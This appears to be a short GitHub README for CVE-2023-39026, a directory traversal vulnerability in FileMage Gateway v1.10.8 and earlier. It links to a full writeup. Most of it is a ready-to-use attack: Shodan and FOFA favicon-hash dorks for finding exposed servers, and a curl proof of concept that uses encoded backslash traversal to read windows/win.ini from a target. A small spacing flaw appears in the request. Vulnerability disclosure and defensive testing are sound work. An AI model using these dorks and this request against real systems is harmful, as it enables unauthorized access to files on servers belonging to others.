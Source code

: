 # CVE-2023-39026

![](https://img.shields.io/static/v1?label=Product&message=FileMage%20Gateway&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=v.1.10.8%20and%20before&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=%20Directory%20Traversal&color=red)

For the full writeup, click [here](https://raindayzz.com/technicalblog/2023/08/20/FileMage-Vulnerability.html).

- Shodan dork:
```
http.favicon.hash:"-209293751"
```
- FOFA dork:
```
icon_hash="-209293751"
```

### Curl PoC
```
curl -k -X 'GET' "http://target_ip_address:port/mgmnt/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5 cwindows%5cwin.ini"
```

